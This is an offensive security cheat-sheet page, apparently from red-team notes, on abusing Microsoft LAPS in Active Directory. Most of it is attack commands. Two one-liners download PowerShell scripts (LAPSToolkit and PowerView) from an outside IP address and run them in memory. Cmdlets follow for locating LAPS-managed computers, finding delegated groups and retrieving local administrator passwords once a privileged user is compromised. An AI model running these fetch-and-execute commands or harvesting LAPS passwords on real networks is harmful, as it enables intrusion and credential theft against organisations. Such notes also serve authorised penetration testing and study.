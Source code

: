 # LAPS

## LAPS

### LAPSToolKit Usage

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Locate computers

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28148%29.png)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](../../../../.gitbook/assets/image%20%28281%29.png)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](../../../../.gitbook/assets/image%20%2825%29.png)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28249%29.png)

### Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}

